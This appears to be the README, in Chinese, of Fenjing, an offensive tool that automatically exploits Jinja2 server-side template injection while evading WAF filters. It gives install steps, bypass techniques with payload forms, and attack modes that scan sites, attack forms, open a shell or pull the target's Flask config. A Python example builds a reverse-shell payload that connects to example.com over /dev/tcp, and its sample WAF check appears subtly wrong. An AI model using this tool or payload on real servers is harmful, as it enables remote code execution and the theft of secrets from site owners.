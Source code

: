 ![焚靖](assets/fenjing.webp)

> Bypass the WAF without knowing WAF

焚靖是一个针对Jinja2 SSTI的命令行脚本，具有强大的自动绕过WAF功能

## 演示

![demo](assets/demo.webp)

## 快速上手

在以下方法中选择一种

### 使用pip安装运行

```shell
pip install fenjing
python -m fenjing webui
```

### 下载并运行docker镜像

```shell
docker pull marven11/fenjing
docker run --net host -it marven11/fenjing webui
```

### 手动安装

```shell
git clone https://github.com/Marven11/Fenjing
cd Fenjing
python -m pip install -r requirements.txt
python -m fenjing webui
```

### 手动构建Docker镜像

```shell
docker build -t fenjing .
docker run -it --net host fenjing webui
```

## 特性

支持绕过：

- `'`和`"`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### 自然数绕过：

支持绕过0-9的同时绕过加号或减号

支持全角数字和特定数字相加减两种绕过方式

### `'%c'`绕过:

支持绕过引号，`g`和`lipsum`

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过

### 属性：

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `|attr('aaa')`
    - 其中的字符串也支持上面的任意字符串绕过

### Item

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `.__getitem__('aaa')`
    - 其中的`__getitem__`支持上面的属性绕过
    - 其中的字符串也支持上面的任意字符串绕过


## 详细使用

### 作为命令行脚本使用

- webui: 网页UI
  - 顾名思义，网页UI
  - 默认端口11451
- scan: 扫描整个网站
  - 从网站中根据form元素提取出所有的表单并攻击
  - 扫描成功后会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing scan --url 'http://xxx/'`
- crack: 对某个特定的表单进行攻击
  - 需要指定表单的url, action(GET或POST)以及所有字段(比如'name')
  - 攻击成功后也会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing crack --url 'http://xxx/' --method GET --inputs name`
- get-config: 对某个特定的表单进行攻击，但是只获取flask config
  - 参数大致上和crack相同
```
Usage: python -m fenjing scan [OPTIONS]

Options:
  -u, --url TEXT       需要扫描的URL
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.

Usage: python -m fenjing crack [OPTIONS]

Options:
  -u, --url TEXT       form所在的URL
  -a, --action TEXT    form的action，默认为当前路径
  -m, --method TEXT    form的提交方式，默认为POST
  -i, --inputs TEXT    form的参数，以逗号分隔
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则成功后进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.

Usage: python -m fenjing get-config [OPTIONS]

  攻击指定的表单，并获得目标服务器的flask config

Options:
  -u, --url TEXT     form所在的URL
  -a, --action TEXT  form的action，默认为当前路径
  -m, --method TEXT  form的提交方式，默认为POST
  -i, --inputs TEXT  form的参数，以逗号分隔
  --interval FLOAT   每次请求的间隔
  --user-agent TEXT  请求时使用的User Agent
  --help             Show this message and exit.
```

### 作为python库使用

参考[example.py](example.py)

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    print(f"{config_payload=}")

```

## 项目结构

[![](https://mermaid.ink/img/pako:eNp1U01TwyAQ_SsMM-2p-QM5eHA86kU9aTqZLVkaRgKRD2vt9L8LwZQkrRwYeLzdfbyFE2W6QVpSLvWBtWAceb2vFAnD-t3eQN8S74S0JIFxMC21ET-YEYOfHq1DkyGuTTcNUdblbVqhapaVLJpCqJCIA8NpSSneOdiSQxEOO6FARmybGQfc-cjZRQ4XBrn-TuB2loYUxV3CLyLIQkWUbnPQakWakI85oRV5fpyUBF5zr1i9RzW_eM0MsI-pHZaBqr2Rt3lJ1FW6waCFuB6OUkMz0ZfFjZ2LI7hYf4GZ8GyLUtZ_8bPWcLG_xrnP7PkNb4LzNGQ9LzdccJlxAKf79UL15YGMfbv2djyZ-5vmocv_xC3cvyUvWk83tAvvDUQTvsgphlbUtdhhRcuwVOidAVnRSp0DFbzTL0fFaOmMxw31fQMOHwSE1nU0PExpA9qDetM677ERTpun9A2H33j-BR2iIbY?type=png)](https://mermaid.live/edit#pako:eNp1U01TwyAQ_SsMM-2p-QM5eHA86kU9aTqZLVkaRgKRD2vt9L8LwZQkrRwYeLzdfbyFE2W6QVpSLvWBtWAceb2vFAnD-t3eQN8S74S0JIFxMC21ET-YEYOfHq1DkyGuTTcNUdblbVqhapaVLJpCqJCIA8NpSSneOdiSQxEOO6FARmybGQfc-cjZRQ4XBrn-TuB2loYUxV3CLyLIQkWUbnPQakWakI85oRV5fpyUBF5zr1i9RzW_eM0MsI-pHZaBqr2Rt3lJ1FW6waCFuB6OUkMz0ZfFjZ2LI7hYf4GZ8GyLUtZ_8bPWcLG_xrnP7PkNb4LzNGQ9LzdccJlxAKf79UL15YGMfbv2djyZ-5vmocv_xC3cvyUvWk83tAvvDUQTvsgphlbUtdhhRcuwVOidAVnRSp0DFbzTL0fFaOmMxw31fQMOHwSE1nU0PExpA9qDetM677ERTpun9A2H33j-BR2iIbY)


